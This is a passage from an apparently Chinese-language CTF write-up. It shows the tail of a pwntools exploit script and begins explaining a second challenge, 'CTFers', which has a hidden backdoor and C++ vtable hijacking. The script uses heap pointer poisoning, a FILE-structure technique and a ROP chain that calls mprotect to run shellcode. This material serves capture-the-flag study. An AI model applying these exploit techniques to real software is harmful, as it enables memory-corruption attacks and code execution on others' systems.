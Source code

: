 ```python
    edit(2, p64(reveal_ptr(libc.symbols['_IO_list_all'], chunk_addr)))

    add(3, 0x100, b'asd')
    add(4, 0x100, p64(chunk_addr))

    #-------------------------- House of Illusion --------------------------#

    hoi = HouseOfSome(libc, chunk_addr + 0x400)
    pad = hoi.hoi_read_file_template(chunk_addr + 0x400, 0x400, chunk_addr + 0x400, 0)
    edit(2, pad)

    io.sendlineafter(b'Choice', b'5')
    io.recvuntil(b': ')
    
    rop = flat([
        # pop rdi; ret
        libc.address + 0x10f75b,
        heap_base,
         # pop rsi ; ret
        libc.address + 0x110a4d,
        0x1000,
        # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
        libc.address + 0xb503c,
        7, 0, 0, 0, 0, 
        libc.symbols['mprotect'],
        shellcode_addr
    ])
    stack = hoi.bomb_raw(io)
    success(f'{stack = :#x}')

    io.sendline(rop)

    pass

if __name__ == '__main__':
    exp()
    io.interactive()
```

## CTFers

程序有三个功能，增删查。新增时暂存名字用到了 `name_buf`，查询时有一个虚函数调用 `Binary::info` 或 `Web::info`。另外还有一个隐藏后门 `0xdeadbeef`，可以修改一次 `ctfers` 首个元素的地址。既然程序没有开启 PIE，那么当然可以将地址改到 `name_buf`，从而在输入名字时伪造 `CTFer` 对象。但我们首先要知道这个对象里有什么。

`Binary` 和 `Web` 继承自 `CTFer`，`std::vector` 存储这两种对象时仅存储其指针而丢弃了类型信息。然而我们依旧可以直接调用对应类型的 `info`，这是因为 C++ 运行时多态特性。虽然 C++ 标准并未规定，但大多数编译器实现它的方式是**虚函数表**。通过在对象中存储一个虚函数表指针指向存储对应成员函数指针的虚函数表来实现运行时多态。本题虚函数调用在此：

```assembly
004025f4  mov     rdx, qword [rax]
004025f7  mov     rdx, qword [rdx]
004025fa  mov     rdi, rax
004025fd  call    rdx
```
